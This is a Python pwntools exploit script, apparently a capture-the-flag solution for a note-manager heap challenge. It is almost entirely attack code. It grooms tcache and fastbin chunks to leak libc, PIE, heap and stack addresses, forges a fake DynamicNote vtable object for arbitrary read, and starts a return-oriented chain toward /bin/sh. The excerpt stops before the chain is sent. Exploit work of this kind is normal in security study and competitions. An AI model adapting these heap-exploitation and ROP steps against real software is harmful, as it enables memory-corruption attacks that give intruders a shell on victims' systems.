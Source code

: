 ```py
# dummy chunk to later trigger fastbin consolidation
new_note(3)
set_content(0, b"A" * 0x500)
delete_note(0)
# fill tcache bin and two chunks into fastbin
for i in range(9):
    new_note(1)
    set_content(i) # binary pointers in chunks
for i in range(9):
    delete_note(0)
# creatu large chunk to trigger consolidation
new_note(3)
set_content(0, b"B" * 0x500)

# using FixedNote to get libc and base address leaks
new_note(2)
libc_leak = u64(display_note(1)+b'\0\0') - 0x203b50
log.success(f"Libc leak: {libc_leak:#x}")
libc.address = libc_leak
set_content(1, b"A" * 8)
pie_leak = u64(display_note(1)[8:]+b'\0\0') - 0x52be
log.success(f"PIE leak: {pie_leak:#x}")

# similar idea to leak heap address
new_note(3)
for i in range(9):
    new_note(1)
for i in range(9):
    delete_note(3)
delete_note(0)
set_content(1, b"C" * 0x500)
new_note(2)
set_content(2, b"D" * 0x18)
heap_leak = u64(display_note(2)[0x18:]+b'\0\0')
heap_leak = unprotect(heap_leak)
log.success(f"Heap leak: {heap_leak:#x}")

# expand vector to trigger reallocate so vector is after chunks
for i in range(16):
    new_note(1)

# Fake DynamicNote chunk
fake_note = flat(
    pie_leak + 0x8CA0, # DynamicNote vtable
    libc.sym.environ, # pointer
    0x50, 0x80, # size, capacity
    heap_leak + 0x18 # pointer to fake note at index -31
)
set_content(2, fake_note)
stack_leak = u64(display_note(-31)[:8]) - 0x1e0
log.success(f"Stack leak: {stack_leak:#x}")

fake_note = flat(
    pie_leak + 0x8CA0,
    stack_leak,
    0x50, 0x80,
    heap_leak + 0x18
)
set_content(2, fake_note)

pop_rdi = libc_leak + 0x10f75b
ret     = libc_leak + 0x10f75c
binsh   = next(libc.search(b"/bin/sh\0"))
```